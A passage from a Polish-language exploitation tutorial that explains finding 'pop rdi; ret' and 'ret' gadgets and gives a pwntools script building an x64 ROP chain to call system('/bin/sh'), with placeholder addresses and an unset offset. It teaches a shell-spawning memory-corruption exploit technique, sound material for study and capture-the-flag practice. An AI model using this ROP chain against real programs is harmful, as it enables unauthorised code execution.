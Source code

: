 #### **Znajdowanie gadżetów**

Dla naszych potrzeb skupimy się na gadżetach, które pozwolą nam ustawić rejestr **RDI** (aby przekazać ciąg **"/bin/sh"** jako argument do **system()**) i następnie wywołać funkcję **system()**. Załóżmy, że zidentyfikowaliśmy następujące gadżety:

- **pop rdi; ret**: Przenosi górną wartość stosu do **RDI** i następnie zwraca. Niezbędne do ustawienia naszego argumentu dla **system()**.
- **ret**: Proste zwrócenie, przydatne do wyrównania stosu w niektórych scenariuszach.

I znamy adres funkcji **system()**.

### **ROP Chain**

Poniżej znajduje się przykład użycia **pwntools** do skonfigurowania i wykonania łańcucha ROP mającego na celu wykonanie **system('/bin/sh')** na **x64**:
```python
from pwn import *

# Assuming we have the binary's ELF and its process
binary = context.binary = ELF('your_binary_here')
p = process(binary.path)

# Find the address of the string "/bin/sh" in the binary
bin_sh_addr = next(binary.search(b'/bin/sh\x00'))

# Address of system() function (hypothetical value)
system_addr = 0xdeadbeefdeadbeef

# Gadgets (hypothetical values)
pop_rdi_gadget = 0xcafebabecafebabe  # pop rdi; ret
ret_gadget = 0xdeadbeefdeadbead     # ret gadget for alignment, if necessary

# Construct the ROP chain
rop_chain = [
ret_gadget,        # Alignment gadget, if needed
pop_rdi_gadget,    # pop rdi; ret
bin_sh_addr,       # Address of "/bin/sh" string goes here, as the argument to system()
system_addr        # Address of system(). Execution will continue here.
]

# Flatten the rop_chain for use
rop_chain = b''.join(p64(addr) for addr in rop_chain)

# Send ROP chain
## offset is the number of bytes required to reach the return address on the stack
payload = fit({offset: rop_chain})
p.sendline(payload)
p.interactive()
```
W tym przykładzie:

- Wykorzystujemy gadżet **`pop rdi; ret`**, aby ustawić **`RDI`** na adres **`"/bin/sh"`**.
- Bezpośrednio skaczemy do **`system()`** po ustawieniu **`RDI`**, z adresem **system()** w łańcuchu.
- **`ret_gadget`** jest używany do wyrównania, jeśli docelowe środowisko tego wymaga, co jest bardziej powszechne w **x64**, aby zapewnić prawidłowe wyrównanie stosu przed wywołaniem funkcji.

